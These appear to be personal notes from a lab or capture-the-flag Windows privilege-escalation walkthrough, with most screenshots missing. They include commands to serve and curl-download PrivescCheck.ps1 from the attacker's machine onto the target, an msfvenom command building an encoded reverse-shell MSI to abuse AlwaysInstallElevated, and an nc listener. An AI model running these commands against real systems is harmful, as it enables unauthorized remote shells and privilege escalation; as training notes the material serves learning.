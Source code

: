 So this requires some steps now. First we need to save this file to our machine. Check. Next we need to run a python http server on our machine with<mark style="background: #CACFD9A6;"> python3 -m http.server 8000</mark>, in order to do the second step which is getting this file on the target machine. To get this script on the target machine we will use curl

#### transfering file to the target machine

> new tab

> wget https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1

> python -m http.server

![[Pasted image 20240304182931.png]]

-> return to the target system

> curl http://$your_machine_ip:8000/PrivescCheck.ps1 --output PrivescCheck.ps1


![[Pasted image 20240304183244.png]]

### Escalate:

Execute the process for installation PrivsecCheck:

![[Pasted image 20240304183913.png]]

-> Execute these command on the target windows machine after you verified the installation of it.

![[Pasted image 20240304184352.png]]

![[l6xi35kn.bmp]]

Well as we see in the report that we got there are some credentials

![[shrsoaqn.bmp]]

![[Pasted image 20240304185221.png]]

and also AlwaysInstallElevated is on. I found this [blog](https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path) post on the latter. It says that AlwaysInstallElevated allows all users to instal msi files with elevated privileges. First we need to check to things in order to know if we can make a custom msi payload.

![[Pasted image 20240304185138.png]]



-> new terminal 

> msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=$your_IP LPORT=1337 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi

-> create listener on port setted (1337)

> nc -lvnp 1337
